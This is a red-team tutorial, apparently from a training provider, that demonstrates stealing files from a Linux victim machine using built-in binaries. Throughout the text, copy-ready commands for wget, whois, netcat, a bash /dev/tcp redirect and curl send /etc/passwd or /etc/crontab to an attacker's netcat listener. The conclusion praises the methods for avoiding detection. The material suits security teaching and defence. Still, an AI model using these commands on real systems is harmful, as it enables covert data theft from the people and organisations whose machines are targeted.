

:orphan:
(data-exfiltration-with-the-help-of-linux-binaries)=
# Data Exfiltration with the Help of Linux Binaries
 
Data exfiltration is theft or unauthorized removal or movement of data from a device. Data exfiltration is a means of bypassing security and gaining unauthorized access to data on a user's system or a server. Attackers gain unauthorized access to critical data and sneakily make a copy of it. Data exfiltration can be carried out in a variety of ways, with the primary goal of stealing data.

Linux binaries are file on a Linux system that isn't a text file, which includes everything from system commands and libraries to image files and compiled programs. `/bin` directory contains binaries for all the users and it also has executable files, and Linux commands such as cat, cp, ls, cd, etc. 
For the demonstration purpose, we will use two systems to exfiltrate data, one posing as an attacker and the other as a victim.

## Wget 

wget is a free application for non-interactively downloading files from a web server, even if the user is not logged in to the system.

Wget get can be used to upload a file and send it to the attacker machine over ``HTTP POST``. 
On the victim machine, send a local file with an ``HTTP POST``. 
`wget --post-file=<file-path-> <ip_address>`



On the attacker machine, to get the file, Netcat is used as a listener, 
`nc -nlvp 80 `
`Note: to open up port 80 you would need higher privileges`


From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Whois 

Whois is the request and response protocol that is commonly used for querying databases containing the registered users of an Internet resource such as domain name or IP address.
Whois binary can be used to upload a file and send it to the attacker's machine over a TCP connection. 

On the victim machine, enter the file to upload, the victim's IP address, and the remote port for file transfer. 
```
whois -h <remote_IP_address> -p <remote_port> `cat  /etc/passwd`
-h connect to server
-p connect to port 
```


On the attacker machine, to get the file, Netcat is used as a listener, 
`nc -nlvp 1337 `


Data exfiltration is successful, the contents of the file /etc/passwd with all the users can be seen on the attacker's machine

## Netcat 

netcat is a computer networking program that allows you to read and write to network connections through TCP or UDP. 

On the victim’s machine set up the netcat by specifying the IP address and port and file to be sent. 
`Nc -N <IP_address> < <file path >`


On the attacker's machine set up the netcat to listen for the file by specifying the port to listen on. 

`Nc -lvp 1337 > <file_to_be_sent>`


## Bash 

It is a command language and Unix shell. bash binary can be used to upload files invisibly and deliver the file to the attacker system via `HTTP POST`.

On the victim machine, the following `bash -c` command can be used for data exfiltration. 
`bash -c 'echo -e "POST / HTTP/0.9\n\n$(</etc/passwd)" > /dev/tcp/<listener_IP>/<listener_port>’`


On the attacker machine, parrot Linux is used that uses netcat for listening for the connection. 


From the above screenshot, the data exfiltration was successful and the contents of the `/etc/passwd` can be seen on the attacker machine.

## Curl 

curl is a command-line utility that allows data to be transferred across many network protocols. The curl binary can be used to upload a file and deliver it to the attacker's system over an `HTTP POST` connection. 
On the victim machine, the following curl command can be used to exfiltrate the data. 
```
curl -F 'file=@/etc/passwd' http://<attacker_ip:attacker_port>/

curl -F is an argument that allows binary file uploading and forces the content type to be a multipart message. 
```


On the attacker machine, parrot Linux is used that uses netcat for listening for the connection on port 80. 


From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Conclusion: 

Data exfiltration is a key step for a red teamer or attacker, and knowing how to use Linux binaries for data exfiltration can enable you transfer data with less possibility of discovery and without the need to install any external tools for data exfiltration.

:::{seealso}
Looking to expand your knowledge of red teaming? Check out our online course, [MRT - Certified Red Teamer](https://www.mosse-institute.com/certifications/mrt-certified-red-teamer.html)
::: In this course, you'll learn about the different aspects of red teaming and how to put them into practice.**